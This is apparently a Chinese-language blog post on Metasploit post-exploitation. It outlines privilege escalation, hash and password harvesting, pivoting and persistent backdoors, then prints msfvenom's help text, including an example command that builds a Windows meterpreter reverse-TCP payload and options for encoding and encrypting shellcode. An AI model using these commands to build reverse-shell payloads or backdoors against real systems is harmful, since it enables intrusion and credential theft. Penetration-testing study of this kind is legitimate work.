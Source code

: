 ```yaml
---
 layout:   post        # 使用的布局（不需要改）
 title:   msf后渗透   # 标题 
 subtitle:   #副标题
 date:    2020-10-01    # 时间
 author:   yanmie       # 作者
 header-img: img/.jpg  ##标签这篇文章标题背景图片
 catalog: true            # 是否归档
 tags:                
    - msf

--- 
```





## 后渗透阶段

* 权限提升：权限提升的几种方式
* 信息收集：服务器信息、Hash、防火墙杀毒软件、账号密码
* 内网渗透：端口转发、代理跳板
* 后门植入：永久后门维持权限

## msfvenom使用

```
root@localhost:~# msfvenom 
Error: No options
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
```